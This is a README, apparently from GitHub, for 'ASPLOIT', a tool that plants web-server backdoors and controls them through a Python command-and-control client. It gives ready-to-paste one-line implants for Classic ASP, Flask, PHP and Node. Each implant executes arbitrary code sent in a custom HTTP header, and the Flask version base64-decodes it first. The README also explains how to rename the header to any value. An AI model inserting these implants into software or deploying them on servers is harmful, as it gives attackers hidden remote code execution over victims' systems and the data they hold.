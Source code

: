 # ASPLOIT
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

# Backdoor
## Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
## Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
## PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
## Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
## Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).

# Client
## Command and Controller
The C2 runs on Python. To start, run `main.py` in the `src` folder.

# Creating Custom Backdoors/Exploits
Coming soon.

# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).